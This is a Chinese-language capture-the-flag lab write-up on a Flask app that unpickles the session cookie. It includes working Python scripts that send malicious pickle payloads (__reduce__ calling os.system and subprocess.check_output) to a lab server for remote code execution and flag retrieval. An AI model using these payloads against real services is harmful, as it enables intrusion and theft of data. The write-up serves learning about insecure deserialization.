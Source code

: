 # lab_Pickle

1. 首先到這個網站可以發現這邊有兩個輸入的地方，然後有 Source code 可以看，於是先嘗試輸入一些內容至 Name 跟 Age 然後 Submit，發現 Submit 之後，會無法回到上一頁，把是把 Cookie 清空後，回到上一頁直接點進 Source Code 去看程式的行為，會發現這個 flask 主要有三個 route 分別是 “/sauce”、“/login”、“/”，一個是負責show 出 Source code ，一個是負責處理 login 資訊，並會 set 一組 cookie 給 user 。最重要的地方看起就是 main 的地方，session 會負責取得連線的 cookie ，如果 cookie 是空的，那它會自動 redirect 到 /login ，否則就會將 session 取得的 cookie 值，用 base64 decode 之後放進 pickle.loads ，並將回傳值給 user ，然後會再把 User 的 Name 跟 Age 印出來。

![截圖 2023-01-04 下午2.10.51.png](lab_Pickle%20fb25b910ede94dbdb99221a7b523d9d0/%25E6%2588%25AA%25E5%259C%2596_2023-01-04_%25E4%25B8%258B%25E5%258D%25882.10.51.png)

![截圖 2023-01-04 下午2.16.03.png](lab_Pickle%20fb25b910ede94dbdb99221a7b523d9d0/%25E6%2588%25AA%25E5%259C%2596_2023-01-04_%25E4%25B8%258B%25E5%258D%25882.16.03.png)

![截圖 2023-01-04 下午2.13.14.png](lab_Pickle%20fb25b910ede94dbdb99221a7b523d9d0/%25E6%2588%25AA%25E5%259C%2596_2023-01-04_%25E4%25B8%258B%25E5%258D%25882.13.14.png)

1. 可以推測這邊可以利用的是 pickle.loads 函數，研究了一下 pickle 函數可以儲存完整的 python object ，而 Json 不能完整保存，因此這邊的會將輸入的 Username  Pickle.loads 在輸出，如果我們放入的字串是一段 python object 就可以讓他在 Server side 執行我們的 Python object，如果將 Python 設計成 expoit 就可以 RCE 。而我這邊先在本地端測試這個 Pikle 函數的使用，可以成功印出 {'cat': 'meow'} 。
    
    ```python
    (s := pickle.dumps({"cat": "meow"}))
    b'\x80\x04\x95\x11\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x03cat\x94\x8c\x04meow\x94s.'
    print(pickle.loads(s))
    ```
    
2. 然後嘗試在本地端執行 Exploit Object ，也可以成功執行並 “ls -l” 指令來 Show 出本地端資料夾的內容。
    
    ```python
    class Exploit(object):
            def __reduce__(self):
                return (os.system, ('ls -l',))
        
        (serialized := pickle.dumps(Exploit()))
        print(pickle.loads(serialized))
    ```
    

1. 接下來嘗試對 Server 端發出 request，因為 main 函數會先確認 cookie 的內容，如果是空的就會導到 /login ，如果不是空的，就會 user = pickle.loads(base64.b64encode(session))，也就是說如果我把 cookie 設成 `base64.b64encode(pickle.dumps(user))`
那就 user 就會變成 
`user =pickle.loads(base64.b64encode(base64.b64encode(pickle.dumps(user))))`
    
    然後將 user name 及 age 印出來，實際寫 script 確實會變成這樣，如下。
    
    ```python
    import os
    import requests
    import base64
    import pickle
    
    if __name__=="__main__":
     
    
        user = base64.b64encode(pickle.dumps({"name" : "cat" , "age" : "13"}))
        cookie = { "session" : user.decode("utf-8") }
    
        r = requests.get( url="http://h4ck3r.quest:8600/", cookies=cookie )
        print(r.content)
    ```
    
    ![截圖 2023-01-04 下午5.27.09.png](lab_Pickle%20fb25b910ede94dbdb99221a7b523d9d0/%25E6%2588%25AA%25E5%259C%2596_2023-01-04_%25E4%25B8%258B%25E5%258D%25885.27.09.png)
    
2. 然後嘗試發出 exploit，發現回傳值是 0 ，後來仔細想了一下，雖然這樣可以執行 pickle 的 payload ，但他不會回傳值給我，於是開始想辦法取的回傳值，讓他在 name 可以被回傳。

```python
import os
import requests
import base64
import pickle
import subprocess

if __name__=="__main__":
    class Exploit(object):
        def __reduce__(self):
            return (os.system, (['ls','/'],))

    s = pickle.loads(pickle.dumps({"name" : Exploit(), "age" : "13"}))
    user = base64.b64encode(pickle.dumps({"name" : Exploit(), "age" : "13"}))
    cookie = { "session" : user.decode("utf-8") }
    r = requests.get( url="http://h4ck3r.quest:8600/", cookies=cookie )
    print(r.content)
```

1. 然後將如果 os.system 改成 subprocess.check_output 的話，他就可以將輸出的值回傳回來，於是講 Script 改成以下，就可以讀到根目錄內的內容，然後改成 “cat” 一直沒有辦法開啟 flag_5fb2acebf1d0c558 ，這邊嘗試了其他 head、less 等等的指令去嘗試開啟檔案，都會失敗。最後，發現是我自己沒有把之前測試用的 s = pickle.loads(pickle.dumps({"name" : Exploit(), "age" : "13"})) 刪掉，而自己觸發到反序列化，後來把那一行註解掉之後，就可以成功獲得 FLAG。

```python
import os
import requests
import base64
import pickle
import subprocess

if __name__=="__main__":
    class Exploit(object):
        def __reduce__(self):
            filename = 'flag_5fb2acebf1d0c558'
            return (subprocess.check_output, (['ls','-al','/'],))
            #return (subprocess.check_output, (['ls','-al','/'],))

    s = pickle.loads(pickle.dumps({"name" : Exploit(), "age" : "13"}))
    user = base64.b64encode(pickle.dumps({"name" : Exploit(), "age" : "13"}))
    cookie = { "session" : user.decode("utf-8") }
    r = requests.get( url="http://h4ck3r.quest:8600/", cookies=cookie )
    string = r.content.split(b'\\n')
    [print(string[i]) for i in range(len(string))]
```

![Untitled](lab_Pickle%20fb25b910ede94dbdb99221a7b523d9d0/Untitled.png)

![截圖 2023-01-05 上午1.38.15.png](lab_Pickle%20fb25b910ede94dbdb99221a7b523d9d0/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%25881.38.15.png)